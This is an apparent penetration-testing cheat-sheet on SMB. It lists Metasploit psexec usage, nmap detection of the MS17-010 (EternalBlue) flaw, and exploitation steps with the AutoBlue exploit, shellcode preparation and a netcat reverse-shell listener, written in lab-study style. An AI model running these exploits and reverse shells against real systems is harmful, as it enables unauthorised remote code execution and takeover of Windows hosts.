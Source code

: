 Server to share files inside the network

![[SMB_Auth.png]]

# Tools

## Metasploit
```
exploit/windows/smb/psexec
```

## Psexec
```
psexec USER@IP_ADDRESS COMMAND -> usually cmd.exe
```

# MS17-010 SMB Vulnerability (EternalBlue)

It is a collection of vulns in SMBv1 that provided access to windows system with elevated privileges

## Detection
```
nmap -sV -p 445 --script smb-vuln-ms17-010 IP_ADDRESS

auxiliary/scanner/smb/smb_msl7_010
```

## Exploitation
```
https://github.com/3ndG4me/AutoBlue-MS17-010
./shellcode/shell_prep.sh
nc -lnvp LPORT
./eternalblue_exploit[WINDOWS_VERSION] IP_ADDRESS shellcode/sc_[x64/x86].bin

exploit/windows/smb/ms17_010_eternalblue
```